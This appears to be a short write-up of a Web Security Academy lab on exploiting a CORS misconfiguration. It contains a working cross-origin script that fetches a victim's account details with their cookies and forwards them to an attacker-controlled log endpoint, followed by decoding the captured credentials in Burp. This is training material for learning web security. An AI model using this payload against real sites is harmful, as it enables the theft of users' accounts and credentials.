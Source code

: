 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	The script does the following:
	// Create an XMLHttpRequest instance.   
	// Set the event handler that will be called when the response is received.   
	// opening a GET request to the URL to retrieve account details   
	// Sending cookies and HTTP authentication information in the request   
	// Sending the request   
	// Event handler function called when a response is received from the server   
	// forwarding the current page to a log file with the received response text as parameter   
	// After supposedly executing the script on victims machine his credentials get logged:     

	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
